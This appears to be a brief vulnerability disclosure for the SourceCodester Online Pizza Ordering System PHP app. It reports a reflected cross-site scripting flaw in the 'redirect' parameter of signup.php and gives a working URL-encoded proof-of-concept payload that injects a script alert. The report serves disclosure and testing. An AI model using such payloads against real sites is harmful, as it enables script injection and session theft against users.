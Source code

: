 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability trigger parameter: $redirect

The process of vulnerability discovery is as follows：

![image-20230223212353657](C:\markdown\images\image-20230223212353657.png)

exp

```
http://192.168.31.50/php-opos/signup.php?redirect=%27%3E%3C/script%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```

![image-20230223212321830](C:\markdown\images\image-20230223212321830.png)